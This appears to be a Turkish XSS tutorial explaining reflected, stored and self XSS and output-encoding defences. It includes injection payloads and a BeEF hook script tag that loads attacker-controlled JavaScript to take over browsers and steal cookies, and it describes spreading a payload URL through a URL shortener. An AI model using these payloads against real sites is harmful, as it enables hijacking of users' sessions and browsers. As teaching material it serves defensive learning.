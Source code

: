 # **0x08 | XSS hakkında herşey part 1**

## **XSS nedir?**

Açılımı cross site scripting'tir ve siteler arası betik çalıştırma olarak çevrilebilir. Xss, bir çeşit js enjeksiyonu gibi düşünülebilir. Bir web uygulamasının frontend 
kısmına yönelik bir saldırıdır.

## **XSS nerede bulunur?**

Browsera dönen response'un içeriğinde html, css ve js bulunur. Bir siber güvenlikçi perspektifiyle bakacak olursak bizim için js her zaman daha önemlidir. Çünkü js 
uygulamanın hareket kabiliyetini belirler. XSS, %99 ihtimalle browsera dönen response'un body'sinde bulunur. 

<img width="1153" height="581" alt="image" src="https://github.com/user-attachments/assets/06e5ce8c-241f-4345-b66c-14ce0efbed57" />

Arama kısmında "mehmet" şeklinde arama yapıldığında sayfada input görülebilmektedir. 

<img width="474" height="60" alt="image" src="https://github.com/user-attachments/assets/379af923-fee4-483c-a367-ac33d679c1bf" />

Sayfanın html'i incelendiğinde de aynı şekilde görülebilmektedir.

<img width="400" height="46" alt="image" src="https://github.com/user-attachments/assets/be6e3446-0980-4420-bf05-561b748b7e65" />

Browserdan web sunucusuna bir post reqesti gider ve requestte bulunan query string ya da post parametreleri ile arama kısmına yazılan içerik sunucuya ulaşır. Kullanıcının kontrol edebildiği bu mekanizma xss açığı barındırabilir. 

## **DOM(Document Object Model) Mimarisi**

Bir web sitesinde sayfayı incele kısmına tıklanıp görülen içerik ile sayfanın kaynak kodu arasında fark vardır. Çünkü sayfanın kaynak kodundaki içerik browser tarafından yorumlanmıştır. Kaynak kod kısmındaki js kodları browser'ın interpreter'ı tarafından çalıştırılmıştır ve bu js kodları DOM'un üstündeki hareketleri değiştirir. Http response'un içerisindeki html içerik, browser için bir inputtur ve bir hacker'ın amacı bu input'un içinde ufak manipülasyonlar yapmaktır. 

Site içerisinde bir arama kutusuna isim yazdınız ve url'de bu hale geldi.

```
www.x.com/?keyword=mehmet
```

Kaynak kodu ise bu hale.

```
<div id="content">
 <h2 id='pageName'>searched for: mehmet</h2>
</div>
```

Eğer biz isim yazdığımız yere bu şekilde bir js kodu yazarsak yazılımcının istemediği bir şey yapmış oluruz.

```
www.x.com/?keyword=<script>alert()</script>
```

Koda da bu şekilde yansır.

```
<div id="content">
 <h2 id='pageName'>searched for: <script>alert()</script></h2>
</div>
```

Browser, <script>alert()</script> kısmını çalıştırmaması gerektiğini anlayamaz ve js kodunu çalıştırır. İşte xss'in başladığı nokta burasıdır. 

## **Verilerin farklı ortamlardaki durumu**

Web uygulamasına girilen data, php interpreterında bir data olsa da browsera response olarak geri döndüğünde data artık tag olur ve bu xss'i doğurur. 

<img width="434" height="201" alt="image" src="https://github.com/user-attachments/assets/dcc0a012-53ac-40f8-9cc3-a2195f906f78" />

Neden sürekli <script>alert()</script> denendiği sebebine gelirsek. Bu, pop-up çalıştırmamızı ve zafiyetin tespit edilmesini sağlar. İşin sömürü kısmına gelecek olursak frontend kısmının bozulması, cookilerin ve sessionların çalınması gibi şeylere yol açar xss.

## **BEEF XSS exploitation framework**

BeEF, profesyonel penetrasyon test cihazının istemci taraflı saldırı vektörlerini kullanarak gerçek bir hedef güvenlik ortamını değerlendirebilmesini sağlayan bir framework'tür.

Beef'i çalıştırdıktan sonra terminalde çıkan 2 ip.

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://127.0.0.1:3000/hook.js"></script>
```

"<script>alert()</script>" ile xss'in tespit edildiği yerde "<script src="http://127.0.0.1:3000/hook.js"></script>" çalıştırıyoruz ve beef panelinde online browsers kısmında siteyi görüyoruz. Burdan sonra command kısmında gelip cookielerin çalınmasından sosyal mühendislik saldırılarına kadar pek çok şey yapılabilir.

## **Reflected XSS**

Şimdiye kadar anlatılan xss aslında reflected xss idi. Türkçesi yansıyan xss anlamına gelen bu zafiyet türü, requesti gönderen bir kişinin browser'ında gerçekleşir. Birçok kullanıcının request-response cycle'ı vardır ve bunlar birbirinden bağımsızdır. Bu yüzden de bir saldırgan reflected xss bulduğu zaman bu başka kullanıcılar tarafından görülmez. 

Url shortener sitesine aşağıdaki url'i verildiğinde

```
http://boylebirsiteyok/?keyword=<script>alert(1)</script>
```

böyle bir url'e dönüştürecektir.

```
https://shorturl.at/mh965
```

Bu url'e tıklayan bir kullanıcı, hedef websitesine gider ve giderken browser tüm cookieleri ekler.

## **Stored XSS**

Reflected xss'in web app'ten gelen response'ta olduğundan bahsetmiştik. Şimdi bundan daha kötü bir senaryodan bahsedeceğiz. Payload'ın db'e kaydedildiği durum yani stored xss. Hatta bu db'den faydalanan başka web servisleri ve app'ler bile bu durumdan etkilenebilir. Stored xss kalıcı olarak sitede bulunur ve başka kullanıcılar da bundan etkilenir. Örneğin bir forum sayfasında bir saldırgan yorum olarak xss payload'ı ekledi. Yorumu gören bütün site kullanıcıları bu xss saldırısına maruz kalır. 

## **Self XSS**

Bir banka uygulamasına adres bilgileri girildiğinde kod kısmında böyle gözüktüğünü varsayalım.

```
<html>
 <header></header>
 <body>
  <textarea>
   adres bilgileri...
  </textarea>
 </body>
</html>
```

Adres yerine xss payloadı yazıldığında text'e dönüşecektir bu yüzden payload'ı yazarken <textarea> tag'i kapatılmalı. 

```
 <body>
  <textarea>
   </textarea><script>alert(1)</script>
  </textarea>
 </body>
```

Bu uygulamada kullanıcının kendisinden başka kimse adresini göremez. Dolayısıyla xss'i de kimse göremez yani bu bir self xss zafiyetidir. Self xss zafiyetini sömürmek için sosyal mühendislik gerekir.

## **XSS nasıl engellenir?**

Xss html ile birleşilen output'un verildiği yerde engellenir. Çünkü zafiyet oluştuğu yerde engellenmeli. Input validation ile form alanındaki taglerin gelmesi engellense bile uygulamaya başka yerlerden gelen inputlar yüzünden xss yine ortaya çıkacaktır. Bu yüzden tedbir alırken bütüncül yaklaşmak faydalı olacaktır.

### **Html Context**

Kullanıcının, bu adrese gittiğini varsayalım.

```
www.x.com/?keyword=mehmet
```

Keyword parametresine bu şekilde xss payloadı yazarsak...

```
www.x.com/?keyword=<script>alert(1)</script>
```

Sayfanın içeriğinde buna benzer bir sonuç bekleriz

```
<html>
 <body>
  <p>
   Aradığınız kelime <script>alert(1)</script>
  </p>
 </body>
</html>
```

Eğer output encoding yapılmışsa sonuç böyle gözükür ve xss saldırısı da engellenir. Eğer tag olmazsa xss de olmaz.

```
<html>
 <body>
  <p>
   Aradığınız kelime &lt;script&gt;alert(1)&lt;/script&gt;
  </p>
 </body>
</html>
```

### **Attribute Context**

Url'de verdiğimiz payload'ın, inputun value attribute'unda olduğunu varsayalım. 

```
<html>
 <body>
  <form>
   <input name="keyword" value="<script>alert(1)</script>">
  </form>
 </body>
</html>
```

Burada yazılan payload value'da olduğundan önce value attribute'undan kurtulmak gerekir. Bunun için;
Payload'ı böyle verildiğinde.

```
www.x.com/?keyword="><script>alert(1)</script>
```

Sonuç da böyle olacaktır.

```
<html>
 <body>
  <form>
   <input name="keyword" value=""><script>alert(1)</script>">
  </form>
 </body>
</html>
```

Encoding yapılması bu saldırının da önüne geçecektir fakat tag'in dışına çıkmadan da saldırı yapılabilir.

Saldırı kodu böyle olursa:

```
www.x.com/?keyword=" onmouseover="alert(1)
```

Mouse içeriğin üzerine geldiği anda pop-up çıkar.

```
<html>
 <body>
  <form>
   <input name="keyword" value="" onmouseover="alert(1)">
  </form>
 </body>
</html>
```

Bu saldırı yöntemlerinden dolayı ' ve " ların da encode edilmesi gerekmektedir. Hatta internet explorer'ın eski sürümlerinde `` yazıldığında tag kapanır. Yani ` işareti de encode edilmeli.
